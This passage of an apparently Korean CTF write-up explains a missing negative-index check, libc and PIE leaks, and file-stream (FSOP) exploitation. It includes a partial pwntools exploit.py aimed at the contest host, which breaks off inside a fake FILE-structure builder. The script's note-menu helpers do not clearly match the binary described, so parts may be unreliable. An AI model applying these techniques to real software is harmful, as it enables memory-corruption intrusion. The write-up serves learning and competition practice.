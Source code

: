 ```c
      return v1;
  }
  return v1;
}
```

fread에서 `second_input_buf`에 0x40만큼 값을 입력하는데 각 위치의 값을 통해 스위치문으로 여러 행동을 한다.

각각의 행동은 짧게 주석으로 써져있다.

### 해결 2

case3에서 `dword_4140`의 값이 15크지 않도록 검사하고 있는데 음수인지는 검사하지 않는다.

따라서 case4를 통해 `dword_4140`을 감소시켜 `qword_4180[dword_4140]`이 `dword_4140`의 위치를 가리키도록 만들어서 case7과 case3을통해 `dword_4140`을 맘대로 조작할 수 있다.

이를 통해 stream에 stdout의 주소(libc를 통해 알 수 있다)를 쓸 수 있다.

여기서  `qword_4040`에는 자기자신의 주소가 써져있는데 이를 통해  case2의 `fwrite(qword_4040, 1uLL, nbytes, stream)`로 pie의 값도 알 수 있다.

이제 stream에 다시 `qword_4040`의 주소를 쓰고 case5로 `qword_4040`에 가짜 file 구조체처럼 꾸며준다면 fsop를 통해 case2의 `fwrite(~, stream)`을 통해서 원하는 함수를 실행할 수 있다.

##### exploit.py

```python
from pwn import *

host = ["prob.cykor.kr", "localhost"]
port = [1002, 51337]

p = remote(host[0], port[0])
libc = ELF("./deploy/libc.so.6")

def create_note(index, size, content):
    p.sendlineafter(">", "1")
    p.sendlineafter("index: ", str(index))
    p.sendlineafter("2048): ", str(size))
    p.sendafter("content: ", content)

def free(index):
    p.sendlineafter(">", "2")
    p.sendlineafter("free: ", str(index))
def edit(index, offset):
    p.sendlineafter(">", "3")
    p.sendlineafter("index: ", str(index))
    p.sendlineafter("offset: ", str(offset))
    
def print_note(index):
    p.sendlineafter(">", "4")
    p.sendlineafter("print: ", str(index))
    
def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
_IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
_IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
_flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
_offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
__pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
```
